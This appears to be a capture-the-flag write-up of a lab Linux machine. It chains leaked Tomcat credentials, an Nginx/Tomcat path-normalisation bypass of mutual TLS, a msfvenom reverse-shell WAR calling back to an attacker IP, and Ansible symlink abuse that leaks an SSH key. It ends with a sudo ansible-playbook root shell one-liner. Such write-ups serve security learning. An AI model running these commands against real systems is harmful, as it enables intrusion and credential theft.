






Exploitation Summary
Seal is a medium-difficulty Linux machine that chains together several interesting techniques. The attack begins with source code disclosure via an unauthenticated GitBucket instance, where two public repositories expose both the application source and hardcoded Tomcat manager credentials buried in a past commit.
With credentials in hand, access to the Tomcat Manager is blocked by mutual TLS
authentication enforced at the Nginx reverse proxy layer. However, a well-known path
normalisation discrepancy between Nginx and Tomcat allows bypassing this check by injecting a
semicolon-delimited path segment (e.g. /manager;name=bypass/html), causing Nginx
to skip its location block while Tomcat resolves the canonical path normally.
Once inside the Tomcat Manager, a malicious .war file containing a JSP reverse
shell is deployed, granting a foothold as the tomcat user. Lateral movement to
luis is achieved by abusing an Ansible playbook that runs periodically as
luis and follows symlinks during backup — placing a symlink to
/home/luis/.ssh/id_rsa inside the synced directory causes the private key to be
included in the next archive. Finally, luis holds unrestricted
sudo rights over ansible-playbook, which is trivially escalated to
a root shell via a custom playbook that spawns an interactive shell.
Initial Reconnaissance
Starting with an Nmap scan to identify open ports and services:

The scan reveals three noteworthy services: SSH on port 22, an HTTPS server on port 443, and
something running on port 8080. The TLS certificate on port 443 leaks the hostname
seal.htb, which I add to /etc/hosts.

Source Code Disclosure via GitBucket
Port 8080 hosts a GitBucket instance. No credentials are needed to register, so I create an account and browse the public repositories. Two repositories are visible:
root/seal_market— the web application running on port 443root/infra— infrastructure configuration
The README.md of seal_market contains a telling ToDo list:
Remove mutual authentication for dashboard, setup registration and login features.
Deploy updated tomcat configuration.
Disable manager and host-manager.
The mention of mutual authentication is significant — it means the Nginx reverse proxy is
configured to verify a client certificate before forwarding requests to certain paths. Without the
correct client certificate, those paths return 403.
Also visible in the repository are two email addresses belonging to system users:
alex@seal.htb and luis@seal.htb.
Digging through the commit history of seal_market, I find a commit titled
"Updating tomcat configuration" that exposes hardcoded credentials in clear text:
<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>Inspecting the Nginx sites-available configuration in the repository confirms the
mutual authentication setup:
location /manager/html {
if ($ssl_client_verify != SUCCESS) {
return 403;
}
}The same check applies to /admin/dashboard and /host-manager/html. Without
a trusted client certificate, all of these paths are blocked at the proxy level. The Tomcat version
is also visible in 404 error pages: Apache Tomcat/9.0.31 (Ubuntu).
Mutual Authentication Bypass — Nginx/Tomcat Path Normalisation
Since the client certificate is nowhere to be found in the repositories, I research bypass techniques and come across a Black Hat USA 2018 research paper by Orange Tsai titled "Breaking Parser Logic":

The key insight is that Nginx and Tomcat parse URL paths differently when a semicolon is present.
Nginx evaluates /manager;name=bypass/html and does not match its
location /manager/html block — so it forwards the request unmodified. Tomcat, on the
other hand, strips the semicolon-delimited path parameter and resolves the request as
/manager/html — the protected path — granting access.
In practice:
- Requesting
/manager/html→ Nginx matches, returns403 - Requesting
/manager;name=bypass/html→ Nginx does not match the location block, forwards to Tomcat → Tomcat resolves as/manager/html, serves the page
Accessing Tomcat Manager
Using the bypass path and the credentials found in the git history, I successfully log in to the Tomcat Manager web interface:


Initial Access — JSP Reverse Shell via WAR Deployment
With access to the Tomcat Manager, deploying a malicious application is straightforward. I generate
a reverse shell WAR file using msfvenom:
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.195 lport=443 -f war -o rev.warThe first deploy attempt fails — because I was not using the virtual host seal.htb in
the URL. Once I switch to using the correct hostname, the WAR deploys successfully and the new
application context appears in the deployed applications list:

I set up a netcat listener and visit the deployed path to trigger the reverse shell:
nc -lvnp 443The connection comes back and I have a shell as the tomcat user.
Lateral Movement — Ansible Symlink Abuse
Enumerating the system I find user luis on the machine. Listing the home directory
reveals a .ssh folder, but it is only accessible by luis:
ls -lah /home/luis/
drwxr-xr-x 9 luis luis 4.0K May 7 2021 .
drwxr-xr-x 3 root root 4.0K May 5 2021 ..
drwxrwxr-x 3 luis luis 4.0K May 7 2021 .ansible
lrwxrwxrwx 1 luis luis 9 May 5 2021 .bash_history -> /dev/null
-rw-r--r-- 1 luis luis 220 May 5 2021 .bash_logout
-rw-r--r-- 1 luis luis 3.8K May 5 2021 .bashrc
drwxr-xr-x 3 luis luis 4.0K May 7 2021 .cache
drwxrwxr-x 3 luis luis 4.0K May 5 2021 .config
drwxrwxr-x 6 luis luis 4.0K Mar 1 18:13 .gitbucket
-rw-r--r-- 1 luis luis 51M Jan 14 2021 gitbucket.war
drwxrwxr-x 3 luis luis 4.0K May 5 2021 .java
drwxrwxr-x 3 luis luis 4.0K May 5 2021 .local
-rw-r--r-- 1 luis luis 807 May 5 2021 .profile
drwx------ 2 luis luis 4.0K May 7 2021 .ssh
-r-------- 1 luis luis 33 Mar 1 18:14 user.txtI try the Tomcat credentials with luis but there is no credential reuse.
Checking /opt/backups reveals an interesting setup:
ls -lah /opt/backups/
drwxr-xr-x 4 luis luis 4.0K Mar 1 19:18 .
drwxr-xr-x 3 root root 4.0K May 7 2021 ..
drwxrwxr-x 2 luis luis 4.0K Mar 1 19:18 archives
drwxrwxr-x 2 luis luis 4.0K May 7 2021 playbook
ls -lah /opt/backups/archives/
-rw-rw-r-- 1 luis luis 592K Mar 1 19:15 backup-2026-03-01-19:15:32.gz
-rw-rw-r-- 1 luis luis 592K Mar 1 19:16 backup-2026-03-01-19:16:32.gz
-rw-rw-r-- 1 luis luis 592K Mar 1 19:17 backup-2026-03-01-19:17:32.gz
-rw-rw-r-- 1 luis luis 592K Mar 1 19:18 backup-2026-03-01-19:18:33.gzThe playbook directory contains the automation script driving the backups:
cat /opt/backups/playbook/run.yml- hosts: localhost
tasks:
- name: Copy Files
synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
- name: Server Backups
archive:
path: /opt/backups/files/
dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
- name: Clean
file:
state: absent
path: /opt/backups/files/The critical detail here is copy_links=yes in the synchronize task. This
flag tells Ansible (which uses rsync under the hood) to follow symbolic links and copy
the actual file content rather than the symlink itself. The source directory for the sync is
/var/lib/tomcat9/webapps/ROOT/admin/dashboard, where tomcat has write
access.
Using pspy64 to monitor running processes confirms that luis (UID=1000)
executes this playbook periodically:
CMD: UID=1000 PID=15371 | python3 /usr/bin/ansible-playbook /opt/backups/playbook/run.ymlThe attack plan: place a symlink pointing to /home/luis/.ssh/id_rsa inside the
uploads subdirectory of the synced dashboard folder. When the playbook runs as
luis, it will follow the symlink (because luis can read their own SSH
key) and include the key contents in the backup archive.
ln -s /home/luis/.ssh/id_rsa /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/xdAfter waiting for the next backup cycle, I copy the latest archive to /tmp (the
archives directory has restrictive permissions in context) and decompress it:
cp /opt/backups/archives/backup-2026-03-01-19:51:32.gz /tmp/
gunzip /tmp/backup-2026-03-01-19:51:32.gzThe resulting file is a POSIX tar archive. Attempting to extract it directly fails because
tar interprets the colons in the filename as a remote host specification. The
--force-local flag fixes this:
tar -xf backup-2026-03-01-19:51:32 --force-localNavigating to the extracted uploads/ directory reveals the symlink was followed and
the file xd now contains luis's private SSH key. I copy the contents,
save them as id_rsa on my local machine, set correct permissions, and connect:
chmod 600 id_rsa
ssh -i id_rsa luis@seal.htbI am now logged in as luis and can read the user flag.
Privilege Escalation — sudo ansible-playbook
Checking sudo permissions as luis:
sudo -lMatching Defaults entries for luis on seal:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User luis may run the following commands on seal:
(ALL) NOPASSWD: /usr/bin/ansible-playbook *luis can run ansible-playbook with any argument as root, without a
password. This is a well-known privilege escalation vector documented on GTFOBins:
https://gtfobins.github.io/gtfobins/ansible-playbook/#shell
The technique is simple: write a custom playbook that uses Ansible's shell module to
spawn an interactive shell connected to the current terminal:
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > /tmp/xd.yml
sudo ansible-playbook /tmp/xd.yml[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
PLAY [localhost] ***************************************************************************
TASK [Gathering Facts] *********************************************************************
ok: [localhost]
TASK [shell] *******************************************************************************
# whoami
rootThe playbook executes the shell as root, granting full system access and the root flag.